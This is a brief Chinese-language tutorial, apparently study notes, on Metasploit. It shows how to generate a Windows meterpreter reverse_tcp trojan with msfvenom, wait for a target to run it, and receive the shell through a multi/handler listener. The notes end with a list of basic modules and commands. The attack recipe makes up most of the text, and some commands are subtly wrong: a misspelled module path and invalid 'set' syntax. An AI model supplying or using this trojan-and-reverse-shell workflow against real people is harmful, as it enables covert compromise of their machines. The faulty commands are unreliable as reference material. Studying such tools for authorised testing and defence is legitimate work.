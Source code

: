 ### 基于木马的渗透一般流程：

> 1. 使用msfvenom<mark>生成</mark>木马
> 2. 等待对方<mark>上钩</mark>
> 3. 使用handler模块<mark>利用</mark>木马

### windows平台简单渗透测试

1. **木马生成：** `msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<port> -f exe -o payload.exe`
2. **利用木马之前的配置：**
   1. `msfconsole` 进入MSF框架主控制台
   2. `use exploit/multi/hander` 使用模块
   3. `set payload windows/meterpreter/reverse_tcp` 设置攻击载荷
   4. `set lhost=<IP>`
   5. `set lport=<port>`
3. **执行：** `exploit | run`
4. **出现 <u>meterpreter></u> 即为成功** 

### msf(metasploit-frameword)简单理解
​	msf是一款可以快速利用已发现的漏洞或快速生成木马，进而进行渗透的框架。其模块和渗透成功后的执行脚本大多都是以Ruby语言实现的。

##### 渗透成功后的操作：

-  meterpreter
-  shell

##### 主要工具：

- `msfvenom`	可以生成多平台的木马

##### 主要模块：

-  `auxiliary`辅助模块
-  `exploit`漏洞模块
-  `payload`攻击载荷模块

##### 主要命令：

- `use <moudule name> | <moudul index>`使用模块

- `show options` 列出当前使用的模块的配置参数

- `set <key>=<value>` 配置模块个属性的值

- `run` 一切准备就绪，开始监听